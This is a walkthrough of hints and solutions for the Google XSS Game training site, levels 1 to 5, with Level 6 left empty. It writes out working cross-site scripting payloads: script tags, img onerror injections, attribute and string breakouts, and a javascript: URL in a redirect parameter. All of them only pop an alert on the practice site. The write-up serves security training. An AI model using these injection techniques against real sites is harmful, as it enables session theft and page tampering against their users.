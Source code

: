 [XSS-Game](https://xss-game.appspot.com/)
=========================================

Hint and Solution to [XSS Game on Appspot](https://xss-game.appspot.com/)

Level 1
-------

**Hint**

The textbox will include any html in page including tags.

**Solution**

Type `<script>alert("GG")</script>` and it will give you the popup.

Level 2
-------

**Hint**

If you read the hints of the level, then you should already know what to do

**Solution**

Use the `<img />` tag and its `onerror` attribute. `<img src="forbidden" onerror="alert('GG')" />`

Level 3
-------

**Hint**

Go on and click on the tabs and notice how the URL changes. Not only the URL changes but the page also generates an HTTP GET request. Enter something like `#11` at the end of url instead of `#1` (Why 11? Well, 11 is my birth date. The more you know! :P). So this time no image loads. That's fine but we need a little bit more information.

Let's look at the source. Open up `index.html` given in Target Code. The sweet stuff we need is at line `17`.

    html += "<img src='/static/level3/cloud" + num + ".jpg' />";

Hmmm, `onerror`? ;)

**Solution**

Changing the line to something like this, we can use `onerror` again!

    html += "<img src='/static/level3/cloud" + "11.jpg' onerror='alert("GG")' alt='" + ".jpg' />";

So use `#11.jpg' onerror='alert("GG")' alt='` in URL.

Level 4
-------

**Hint**

Directly inserting JS in the textbox won't work. But there's still a way to do this. See `timer.html` line `21`

**Solution**

`10');alert('GG` gives us what we need. Line `21` converts to

    <img src="/static/loading.gif" onload="startTimer('10');alert('GG');" />`

Level 5
-------

**Hint**

Read Hints on the level and then [this](http://tools.ietf.org/id/draft-hoehrmann-javascript-scheme-00.txt) if you are clueless. And now read the source! ... Still nothing? Uh, ok ... Look at `welcome.html` line `13` and `signup.html` line `15`. See if you can use those parameters.

**Solution**

The URL `signup?next=javascript:alert('GG')` is what you need.

Level 6
-------


